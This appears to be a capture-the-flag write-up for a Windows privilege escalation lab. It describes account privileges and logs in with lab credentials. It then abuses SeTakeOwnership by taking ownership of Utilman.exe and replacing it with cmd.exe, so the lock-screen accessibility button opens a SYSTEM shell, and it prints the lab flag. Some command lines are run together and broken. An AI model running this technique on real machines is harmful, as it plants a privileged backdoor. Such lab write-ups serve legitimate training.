 **TASK 6: Abusing dangerous privileges**

# Window Privileges 

Privileges are rights that an account has to perform specific system-related tasks. 
These tasks can be as simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.

Priv can be checked using :

      whoami /priv


# SeBackup / SeRestore

The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.


Now lets get connected to our machine 

    xfreerdp /v:<machineip> /u:THMBackup /p:CopyMaster555
![Screenshot 2023-10-25 115343](https://github.com/Theincognitomode/Windows-Privilege-Escalation-WriteUP/assets/73027020/538db4d5-965e-461d-8901-497b313bf00e)

Now lets follow the steps from the tasks..

In order to get the flag we have to follow the instruction that are below **SeTakeOwnership**

Basically have to execute three steps 

Make sure you are running these commands in the administrator prompt 
-     takeown /f C:\Windows\System32\Utilman.exe
-     icacls C:\Windows\System32\Utilman.exe 
-     /grant THMTakeOwnership:Fcopy cmd.exe utilman.exe

![image](https://github.com/Theincognitomode/Windows-Privilege-Escalation-WriteUP/assets/73027020/56dbe199-64a5-4905-995c-92175336a177)

Now lock the screen and click on `**Ease of access**` option a cmd will pop up

![image](https://github.com/Theincognitomode/Windows-Privilege-Escalation-WriteUP/assets/73027020/a9ca7f4a-b5c0-4d85-a051-50cd952137c5)  

    THM{SEFLAGPRIVILEGE}

There you go..
